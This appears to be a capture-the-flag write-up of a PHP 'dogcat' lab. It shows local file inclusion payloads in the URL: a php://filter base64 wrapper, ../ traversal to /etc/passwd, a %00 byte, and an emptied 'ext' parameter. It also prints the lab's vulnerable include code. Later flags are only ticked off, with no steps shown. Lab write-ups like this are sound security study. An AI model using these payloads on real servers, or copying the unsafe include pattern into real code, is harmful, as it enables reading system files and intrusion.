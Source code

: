 DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)
- [x] FLAG2
- [x] FLAG3
- [x] FLAG4
